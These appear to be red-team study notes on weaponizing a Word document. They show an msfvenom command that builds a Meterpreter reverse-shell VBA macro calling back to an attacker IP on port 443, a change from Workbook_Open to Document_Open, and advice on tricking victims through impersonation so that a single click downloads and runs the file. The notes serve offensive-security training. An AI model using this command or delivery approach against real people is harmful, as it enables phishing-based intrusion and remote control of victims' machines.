 ### Creating an in-memory Meterpreter payload using Metasploit for a reverse shell:
- Using `msfvenom:`
`$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-IP> LPORT=443 -f vba`

	- Note that we want the LPORT to be port 443 because we want to make the connection look legitimate which is via HTTPS.
	- ALSO NOTE THAT THIS ONLY GENERATES THE MACRO AND NOT THE WHOLE DOC file! You need an actual DOC file and EMBED the macro generated from this msfvenom command!
	- What's inside the created payload:

![](/assets/img/Pasted image 20221226203744.png)

	- Notice that the functions used is the same as basic implants. Also, the functions are NOT named so the reverser will have a hard time figuring out what the payload does.

<u>Modifications</u>: We will have an output of `MS Excel Sheet` from `msfvenom` this time so change the `Workbook_Open()` to `Document_Open()` to make it suitable for MS word documents.

![](/assets/img/Pasted image 20221226203859.png)

- Now, deliver the payload to the victim so they will be forced to download it.

<u>Victim's POV</u>:

![](/assets/img/Pasted image 20221226204153.png)

	- Say, someone they trust got impersonated and they are convinced to go on this website and download the file.

![](/assets/img/Pasted image 20221226204441.png)

	- Of course in actual attack, once the link has been given, it should automatically download it.
	- When Emulating the Adversary, you have to understand that people(possible victims in this context) in general follows the path of least resistance. As a Red Teamer, you have to figure out a way for the victim to have a maximum of ONE active interaction with the malicious link/file in order to compromise them. You may want to grease the wheels for them so they don't have to go through these hoops like downloading and executing the malicious file separately on their machine. You have to find a way such that when they click a link, it downloads the malicious file on the victim's system and executes it gaining the initial access(Goal of Weaponization phase).

- Malicious file has been downloaded into the victim's system by the user:

![](/assets/img/Pasted image 20221226204859.png)

![](/assets/img/Pasted image 20221226210713.png)

	- Copy the value and paste on the `Doc1.docx` document we were editing before:

![](/assets/img/Pasted image 20221226210933.png)

- Executing the malicious file on the victim's system by the user:

![](/assets/img/Pasted image 20221226211040.png)
